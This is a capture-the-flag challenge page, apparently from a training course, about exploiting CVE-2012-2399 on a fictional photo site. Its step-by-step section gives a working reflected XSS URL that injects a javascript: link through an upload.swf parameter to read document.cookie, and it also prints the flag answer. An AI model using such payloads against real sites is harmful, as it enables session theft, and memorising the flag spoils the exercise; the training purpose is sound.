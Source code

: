 # 💣 Exposure - L11 C10

One of the Bulldogs, Lara Mindsay, is a surveillance expert and we think she's been using advanced drones to take high resolution photos of the bank from different angles.

She also runs a small legit side project, a photo site which allows anyone to create an account and upload photos. We think she's using it herself to store the bank surveillance photos and so we want to see if it's vulnerable. We've been penetration testing the site but have not had any success so far, then this morning one of the other agents sent me a tip - CVE-2012-2399. Take a look and see if you can use it to see if the site is vulnerable.

**Tip:** Find the vulnerability to get the flag.

<details><summary>

## Need a hint?</summary>

> 💡 Hint: What does google say about the CVE? Are there examples of ways to take advantage of this flaw? If there are then try them out!

</details>

<details><summary>

## Step by Step</summary>

- Insert the following as the url

`https://www.photobobbins.com/upload.swf?buttonText=%3Ca%20href=%27javascript:alert(document.cookie)%20%27%3EClick%20me%3C/a%3E`

- The flag should show up

`flag: rbvhuK8ROZ3ZTrfxPfyY`

</details>
